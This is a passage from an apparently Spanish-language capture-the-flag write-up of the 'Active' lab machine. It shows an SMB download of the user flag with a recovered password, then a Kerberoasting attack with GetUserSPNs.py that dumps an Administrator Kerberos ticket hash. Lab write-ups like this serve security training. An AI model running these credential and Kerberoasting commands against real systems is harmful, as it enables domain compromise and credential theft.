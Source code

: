 ```
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt

[+] Starting download: Users\SVC_TGS\Desktop\user.txt (34 bytes)
[+] File output to: /home/kali/Downloads/10.10.10.100-Users_SVC_TGS_Desktop_user.txt
```

Lo abrimos (ocultamos la mitad de la flag):
```
cat 10.10.10.100-Users_SVC_TGS_Desktop_user.txt

f7a72e19020436212c3a6
```
¡Bien! hemos vulnerado la máquina, ahora toca convertirse en domain admin.


## [](#header-2)Escalada de privilegios


Como la máquina no tiene el puerto 5985 abierto no podemos realizar nada con respecto al grupo **remote management use**. Sin embargo, se puede intentar realizar un ataque kerberoast, para esto utilizaremos el `GetUserSPNs.py`, dependiendo de lo que responda podremos obtener el ticket:

```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18

Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-02-06 17:56:58.570146 
```


Podemos observar que si, para obtener el ticket agregamos la flag `request`:

```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request

Impacket v0.10.1.dev1+20230203.111903.32178de6 - Copyright 2022 Fortra

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation 
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-18 15:06:40.351723  2023-02-06 19:45:27.307178             



[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$8a915b03b8c2e698a01ebd0b0c67c164$04fd9de1a7886832b4ed8f449f4fd2452a538fc2069bc86165e2917cb568c5d8ed88
ba122d4629272d9db640fc719d726e3ea7fa041bcfba29ae3ceac3e605168e88a5f335fb9015564401ae64aa1352c6ba6057b19babd0ead9186194aaf2603dae85f8a22f6baecc5a4b849547b23ca8aca7899
fe3ab7d6e05a6377a1bcda8463f5041b63a5df66f3b62f74eba18f3110a0796351d0dfaa9b765a7a8f93c4027a25f90423c258a40f662908f676f8bf4d312a35e9d91ec477ae212bbae96cf39b46717d796a8
f5927999bbc7abec430df29f3e78328319c0e67d664a43df1cad6eb4b202fca448319975ebdf23d6ccd22488332a1ee5c61495f36477fe4caf0138faa078ea2bef5963a8f8856a202e4a2329a44363970b1d5
0944d3208fca98f3fe7f84fcfc82d14df458c3e10dc3123e313dd5536860cf79235ca969e3d515513e20402c9741188c18602f55ab44a8cfa9af174129f7481b86a686964301ffbbe25506cbfd915b7aa47c0
77ac327cb6f87a3981f15fa1822fc742b9151e33432aede1178898f96d56a07aaa92f255a0aaba7bb348f24f44184be4901909babe8ffc7c93d88c6aa87a4a9ef1def2ed5f10fa0e0b3e1d9d119d873af28a1
```